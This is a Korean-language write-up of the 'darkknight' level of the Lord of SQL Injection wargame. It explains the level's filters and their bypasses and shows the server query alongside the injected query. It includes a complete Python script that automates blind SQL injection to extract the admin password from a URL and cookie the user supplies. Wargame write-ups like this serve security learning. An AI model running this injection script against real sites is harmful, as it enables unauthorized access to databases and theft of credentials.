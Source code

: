 ```yaml
---
title: LOS - 12번 darkknight
category: [Wargame, Lord of SQL Injection]
---
```


# [12] darkknight

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdN85X8%2Fbtrno40RWs3%2FkoWsihFtPt3Lhk7ku1KN51%2Fimg.png">

## 풀이

필터링 사항은 다음과 같다.


① 싱글쿼터

② substr

③ ascii

④ =


<br>

**substr/ascii 필터링 우회 방법**은 다음과 같다.
 

① substr ⇒ ord

② ascii ⇒ mid

<br> 

또한, 이전 문제와 마찬가지로 admin의 pw를 알아야 풀 수 있는 **Blind SQLi** 문제이다.

기존에 사용했던 자동화 코드에 새로운 필터링 사항을 적용해주면 될 것 같다.

<br> 

다만, 이전과는 달리 파라미터가 두개이므로 (pw, no) 서버측 쿼리문을 잠시 살펴보겠다.

<br> 

준비된 쿼리문은 다음과 같다.

```php
$query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
```

<br>

위 쿼리문을 아래와 같이 변조해줄 것이다.

```php
$query = "select id from prob_darkknight where (id='guest' and pw='' and no=0) or id like \"admin\" %26%26 [pw 길이 확인 또는 pw 추출] %23";
```

① id부터 no까지를 하나의 중첩된 and 조건절로 묶어준다.

- 어차피 FALSE로 만드는 것이 목표이기 때문에 pw는 비워두고 no에는 아무 숫자나 할당해준다.

② \|\| id like "admin" && 뒤에 적절한 조건절을 삽입하여 pw 길이 확인 또는 pw 추출을 수행해준다.

 
<br>
 

이상의 내용을 반영하여 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.

```python
def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0 || id like \"admin\" %26%26 length(pw)>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```

① = ⇒ like (문자열 일치 확인)

② = ⇒ > (ASCII 대소 비교)

- 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

```python
def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0 || id like \"admin\" %26%26 ord(mid(pw,{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```

① substr ⇒ ord

② ascii ⇒ mid

 
<br>
 

**수정된 Python 자동화 코드**의 전문은 다음과 같다.

```python
import requests

def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0 || id like \"admin\" %26%26 length(pw)>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0 || id like \"admin\" %26%26 ord(mid(pw,{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    
    length=check_length(url, cookie)
    print(f"👏 pw의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, length)
    print(f"👏 pw의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcWiNuI%2FbtrnlqwCc4k%2FHvtf8sJOMAnp84BYeqr9kk%2Fimg.png">

Blind 공격 결과, admin의 pw는 `0b70ea1f` 임을 알 수 있다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlILVk%2FbtrnjDiSeOV%2FU0OL6DlmSD1nVNdLKX3m8k%2Fimg.png">